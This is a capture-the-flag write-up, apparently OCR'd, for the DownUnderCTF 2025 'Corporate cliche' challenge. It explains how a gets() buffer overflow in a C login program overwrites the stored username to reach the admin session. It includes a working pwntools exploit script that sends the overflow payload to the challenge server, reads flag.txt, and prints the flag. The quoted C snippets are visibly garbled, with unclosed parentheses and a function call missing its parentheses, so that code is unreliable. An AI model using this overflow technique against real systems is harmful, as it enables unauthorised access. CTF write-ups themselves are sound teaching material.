 ﻿# Corporate cliche — Down under CTF 2025 (Beginner)

[← Back to DUC CTF 2025](../ctf-duc-2025.md)

Category: Beginner

Points:

Author: Blue Alder

## Description

It's time to really push the envelope and go above and beyond! We've got a new challenge for you. Can you find a way to get into our email server?

AU: nc chal.2025.ductf.net 30000
US: nc chal.2025-us.ductf.net 30000

## Summary

This challenge involves exploiting a classic buffer overflow vulnerability in a C-based login system. The goal is to access the disabled admin account, which would normally trigger open_admin_session() and give us access to the flag.

Although the username admin is explicitly blocked in the code, there's a way to bypass this restriction by carefully crafting the password input and overflowing into memory to overwrite the stored username.

## Code Analysis

Here’s the vulnerable code section with key behavior annotated:

```c++
printf("Enter your username: ");
fgets(username, sizeof(username), stdin);
username[strcspn(username, "\n")] = 0;

if (strcmp(username, "admin") == 0) {
    printf("-> Admin login is disabled. Access denied.\n");
    exit(0;
}

printf("Enter your password: ");
gets(password;

```

- The username is securely read using fgets(). 
- If the input is "admin", the program immediately exits. 
- However, the password is read using gets(), which doesn't limit input length, allowing for an overflow. 
- After the password is entered, the program compares the provided username and password to entries in a hardcoded list (logins).

Inside this loop:

```c++
if (strcmp(username, logins[i][0]) == 0) {
    if (strcmp(password, logins[i][1]) == 0) {
        printf("-> Password correct. Access granted.\n");
        if (strcmp(username, "admin") == 0) {
            open_admin_session;     // This will print flag
        } else {
            print_email();
        }
```

This means, if we can overflow password and change username to "admin", we’ll bypass the initial check and pass into open_admin_session().

## Exploit Strategy

We use a safe dummy username like "guest" initially. Then:

- Start the password with a known valid password (the emoji sequence "🇦🇩🇲🇮🇳" which is "admin" in emoji). 
- Pad the buffer with filler bytes to reach the location of the username variable in memory. 
- Overwrite the username with "admin" — tricking the program into thinking we logged in as admin. 
- Since "admin" isn't blocked after the initial check, and we now match the logins table for "admin", it calls open_admin_session().

## Exploit script

```
from pwn import *

p = remote("chal.2025-us.ductf.net", 30000)

p.sendlineafter("Enter your username: ", "guest")

emoji_pw = "🇦🇩🇲🇮🇳".encode("utf-8") + b"\x00"   
padding = b"A" * (32 - len(emoji_pw))
overwrite = b"admin"

payload = emoji_pw + padding + overwrite
p.sendlineafter("Enter your password: ", payload)

p.sendline("cat flag.txt")
flag = p.recvline_contains(b'DUCTF{')

print(flag.decode().strip())
```

## ✅ Final Flag

    DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
